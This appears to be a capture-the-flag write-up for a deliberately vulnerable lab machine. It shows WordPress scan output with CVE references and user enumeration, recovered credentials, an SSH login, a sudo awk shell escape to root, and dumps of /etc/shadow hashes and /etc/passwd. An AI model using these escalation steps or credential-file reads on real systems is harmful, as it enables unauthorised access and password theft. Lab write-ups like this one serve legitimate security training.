 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-87h4-phjv-rm6p
 |      - https://hackerone.com/reports/406289
 |
 | [!] Title: WordPress < 5.4.2 - Misuse of set-screen-option Leading to Privilege Escalation
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/b6f69ff1-4c11-48d2-b512-c65168988c45
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4050
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/dda0ccdd18f6532481406cabede19ae2ed1f575d
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-4vpv-fgg2-gcqc
 |
 | [!] Title: WordPress < 5.4.2 - Disclosure of Password-Protected Page/Post Comments
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/eea6dbf5-e298-44a7-9b0d-f078ad4741f9
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25286
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/c075eec24f2f3214ab0d0fb0120a23082e6b1122
 |
 | [!] Title: WordPress 4.7-5.7 - Authenticated Password Protected Pages Exposure
 |     Fixed in: 5.2.10
 |     References:
 |      - https://wpscan.com/vulnerability/6a3ec618-c79e-4b9c-9020-86b157458ac5
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29450
 |      - https://wordpress.org/news/2021/04/wordpress-5-7-1-security-and-maintenance-release/
 |      - https://blog.wpscan.com/2021/04/15/wordpress-571-security-vulnerability-release.html
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-pmmh-2f36-wvhq
 |      - https://core.trac.wordpress.org/changeset/50717/
 |      - https://www.youtube.com/watch?v=J2GXmxAdNWs
 |
 | [!] Title: WordPress 3.7 to 5.7.1 - Object Injection in PHPMailer
 |     Fixed in: 5.2.11
 |     References:
 |      - https://wpscan.com/vulnerability/4cd46653-4470-40ff-8aac-318bee2f998d
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-36326
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19296
 |      - https://github.com/WordPress/WordPress/commit/267061c9595fedd321582d14c21ec9e7da2dcf62
 |      - https://wordpress.org/news/2021/05/wordpress-5-7-2-security-release/
 |      - https://github.com/PHPMailer/PHPMailer/commit/e2e07a355ee8ff36aba21d0242c5950c56e4c6f9
 |      - https://www.wordfence.com/blog/2021/05/wordpress-5-7-2-security-release-what-you-need-to-know/
 |      - https://www.youtube.com/watch?v=HaW15aMzBUM
 |
 | [!] Title: WordPress < 5.8.2 - Expired DST Root CA X3 Certificate
 |     Fixed in: 5.2.13
 |     References:
 |      - https://wpscan.com/vulnerability/cc23344a-5c91-414a-91e3-c46db614da8d
 |      - https://wordpress.org/news/2021/11/wordpress-5-8-2-security-and-maintenance-release/
 |      - https://core.trac.wordpress.org/ticket/54207
 |
 | [!] Title: WordPress < 5.8 - Plugin Confusion
 |     Fixed in: 5.8
 |     References:
 |      - https://wpscan.com/vulnerability/95e01006-84e4-4e95-b5d7-68ea7b5aa1a8
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44223
 |      - https://vavkamil.cz/2021/11/25/wordpress-plugin-confusion-update-can-get-you-pwned/

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating All Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:14 <===============================> (23429 / 23429) 100.00% Time: 00:00:14
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] Theme(s) Identified:

[+] twentynineteen
 | Location: http://192.168.56.84/wordpress/wp-content/themes/twentynineteen/
 | Last Updated: 2021-07-22T00:00:00.000Z
 | Readme: http://192.168.56.84/wordpress/wp-content/themes/twentynineteen/readme.txt
 | [!] The version is out of date, the latest version is 2.1
 | Style URL: http://192.168.56.84/wordpress/wp-content/themes/twentynineteen/style.css
 | Style Name: Twenty Nineteen
 | Style URI: https://wordpress.org/themes/twentynineteen/
 | Description: Our 2019 default theme is designed to show off the power of the block editor. It features custom sty...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.56.84/wordpress/wp-content/themes/twentynineteen/, status: 500
 |
 | Version: 1.4 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.56.84/wordpress/wp-content/themes/twentynineteen/style.css, Match: 'Version: 1.4'

[+] twentyseventeen
 | Location: http://192.168.56.84/wordpress/wp-content/themes/twentyseventeen/
 | Last Updated: 2021-07-22T00:00:00.000Z
 | Readme: http://192.168.56.84/wordpress/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 2.8
 | Style URL: http://192.168.56.84/wordpress/wp-content/themes/twentyseventeen/style.css
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.56.84/wordpress/wp-content/themes/twentyseventeen/, status: 500
 |
 | Version: 2.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.56.84/wordpress/wp-content/themes/twentyseventeen/style.css, Match: 'Version: 2.2'

[+] twentysixteen
 | Location: http://192.168.56.84/wordpress/wp-content/themes/twentysixteen/
 | Last Updated: 2021-07-22T00:00:00.000Z
 | Readme: http://192.168.56.84/wordpress/wp-content/themes/twentysixteen/readme.txt
 | [!] The version is out of date, the latest version is 2.5
 | Style URL: http://192.168.56.84/wordpress/wp-content/themes/twentysixteen/style.css
 | Style Name: Twenty Sixteen
 | Style URI: https://wordpress.org/themes/twentysixteen/
 | Description: Twenty Sixteen is a modernized take on an ever-popular WordPress layout — the horizontal masthead ...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.56.84/wordpress/wp-content/themes/twentysixteen/, status: 500
 |
 | Version: 2.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.56.84/wordpress/wp-content/themes/twentysixteen/style.css, Match: 'Version: 2.0'

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <====================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:00 <==========================================> (71 / 71) 100.00% Time: 00:00:00

[i] No DB Exports Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=====================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] web
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 4
 | Requests Remaining: 21

[+] Finished: Tue Dec 28 14:40:44 2021
[+] Requests Done: 23705
[+] Cached Requests: 10
[+] Data Sent: 6.548 MB
[+] Data Received: 3.606 MB
[+] Memory used: 290.441 MB
[+] Elapsed time: 00:00:22
                                                                                                                   
```

Found a username: web

Credentials: web:passw@45

SSH fails...

http://192.168.56.84/wordpress/wp-login.php fails

Is it a directory?



Yes. It was a hidden directory.



http://192.168.56.84/passw@45/flag2.txt



Use of brainfuck makes me think that all of the CTF organizers are children.

https://www.tutorialspoint.com/execute_brainfk_online.php



Credentials: `web:Hacker@4514`

## SSH



```shell
$ whoami
web
$ id
uid=1001(web) gid=1000(uname-a) groups=1000(uname-a)
$ pwd
/home/web
$ hostname
jax
$ date
Tue Dec 28 14:59:49 IST 2021
$ ls -lAhR
.:
total 8.0K
-rw------- 1 root root  44 Nov  1  2019 .bash_history
-rw-r--r-- 1 root root 405 Nov  1  2019 flag3.txt
$ cat flag3.txt
   ______          ______          ____                 __ 
  / ____/____     /_  __/____     / __ \ ____   ____   / /_
 / / __ / __ \     / /  / __ \   / /_/ // __ \ / __ \ / __/
/ /_/ // /_/ /    / /  / /_/ /  / _, _// /_/ // /_/ // /_  
\____/ \____/    /_/   \____/  /_/ |_| \____/ \____/ \__/  
                                                           

MD5-HASH : 40740735d446c27cd551f890030f7c75
$ sudo -l
Matching Defaults entries for web on jax:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on jax:
    (root) NOPASSWD: /usr/bin/awk
```

## Root


```shell
$ sudo awk 'BEGIN {system("/bin/sh")}'
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

### /etc/shadow

```shell
root:$6$zA1jv1LT$dp/A1iNPXSXyQqZ/OxBjXO.S4OkIRQ7oMANwOndoxONgZqW1xvYsCkUCualS.WxsWytNuCjRHecOoRnERqpBA/:18201:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
lxd:*:18201:0:99999:7:::
messagebus:*:18201:0:99999:7:::
uuidd:*:18201:0:99999:7:::
dnsmasq:*:18201:0:99999:7:::
sshd:*:18201:0:99999:7:::
mysql:!:18201:0:99999:7:::
user-a:$6$UJiOOI9a$2LqASbtHBvnPN.HOi5lHvcwVBfVULekhsQjPligItgYquxFwW4WFsRuIeQohpoXfvsnpnecduf7BNC0OgaVJh.:18201:0:99999:7:::
web:$6$wW1bBpjv$U.5/eBhwzZgS6mlKQOzUJK8BB8dv4urrjn6XHJ2kFGng1VhYnSXDwMNNss5zQCkUgARSRj8Uiz4G7vLTdBvwp.:18201:0:99999:7:::
```

### /etc/passwd

```shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:111:117:MySQL Server,,,:/nonexistent:/bin/false
user-a:x:1000:1000:uname-a,,,:/home/uname-a:/bin/bash
web:x:1001:1000::/home/web:/bin/sh
```

### /home

```shell
# cd /home
# ls
user-a  web
# ls -la
total 16
drwxr-xr-x  4 root   root    4096 Nov  1  2019 .
drwxr-xr-x 22 root   root    4096 Nov  1  2019 ..
drwxr-xr-x  3 user-a uname-a 4096 Nov  1  2019 user-a
drwxr-xr-x  2 root   root    4096 Nov  1  2019 web
# ls -lAhR
.:
total 8.0K
drwxr-xr-x 3 user-a uname-a 4.0K Nov  1  2019 user-a
drwxr-xr-x 2 root   root    4.0K Nov  1  2019 web

./user-a:
total 24K
-rw------- 1 user-a uname-a 1.4K Nov  1  2019 .bash_history
-rw-r--r-- 1 user-a uname-a  220 Nov  1  2019 .bash_logout
-rw-r--r-- 1 user-a uname-a 3.7K Nov  1  2019 .bashrc
drwx------ 2 user-a uname-a 4.0K Nov  1  2019 .cache
-rw------- 1 user-a uname-a   84 Nov  1  2019 .mysql_history
-rw-r--r-- 1 user-a uname-a  655 Nov  1  2019 .profile
-rw-r--r-- 1 user-a uname-a    0 Nov  1  2019 .sudo_as_admin_successful

./user-a/.cache:
total 0
-rw-r--r-- 1 user-a uname-a 0 Nov  1  2019 motd.legal-displayed

./web:
total 8.0K
-rw------- 1 root root  44 Nov  1  2019 .bash_history
-rw-r--r-- 1 root root 405 Nov  1  2019 flag3.txt
```


```shell
# date
Tue Dec 28 15:05:02 IST 2021
```

Took me about half hour. This was super easy.

Rooted.

</body>
</html>